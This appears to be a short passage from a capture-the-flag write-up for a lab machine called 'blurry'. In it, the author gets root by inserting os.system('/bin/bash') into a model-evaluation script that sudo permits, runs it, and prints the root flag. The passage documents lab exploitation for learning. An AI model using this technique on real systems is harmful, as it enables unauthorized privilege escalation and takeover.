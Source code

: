 There was also a demo_model.pth file which was safe for processing

```
jippity@blurry:~$ ls /models
demo_model.pth  evaluate_model.py
```

So just added `os.system('/bin/bash')` after os import in `evaluate_model.py`
and ran the below command

```bash
sudo /usr/bin/evaluate_model /models/demo_model.pth
```

Got root shell

```
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/demo_model.pth                                                                                                           
[+] Model /models/demo_model.pth is considered safe. Processing...                                                                                                              
root@blurry:/home/jippity# ls                                                                                                                                                   
automation  clearml.conf  user.txt                                                                                                                                              
root@blurry:/home/jippity# cat /root/root.txt                                                                                                                                   
95206b059ebbd641ebc777066add04ec
```

